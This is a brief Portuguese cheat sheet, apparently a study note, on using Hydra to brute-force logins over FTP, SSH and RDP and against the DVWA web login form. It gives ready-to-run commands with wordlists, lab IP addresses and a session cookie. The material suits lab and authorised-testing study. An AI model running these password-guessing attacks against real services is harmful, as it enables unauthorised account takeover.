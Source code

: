 # HYDRA

Ferramenta de brute force online.

Uso do hydra com usuário:
hydra -v -l user -P wordlist.txt 192.168.0.100 ftp
hydra -v -l root -P wordlist.txt 192.168.0.100 ssh
hydra -v -l administrator -P wordlist.txt 192.168.0.100 rdp **No RDP pode não funcionar como esperado.**

Uso do hydra com wordlist de usuário:
hydra -v -L users.txt -P wordlist.txt 192.168.0.100 21

## Brute force HTTP

URL: http://192.168.0.100/dvwa/vulnerabilities/brute/?username=teste&password=teste&Login=Login#

hydra -v -l admin -P pass.txt 192.168.0.100 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=4h91dkp7pcp8184nil8rt9ok13; security=low"

**^USER^** ==> Será onde o usuário será inserido.
**^PASS^** ==> Será a senha.
**Username and/or password incorrect.** ==> É o parâmetro de senha incorreta que muda conforme aplicação.
**H** ==> Configuração do Header.
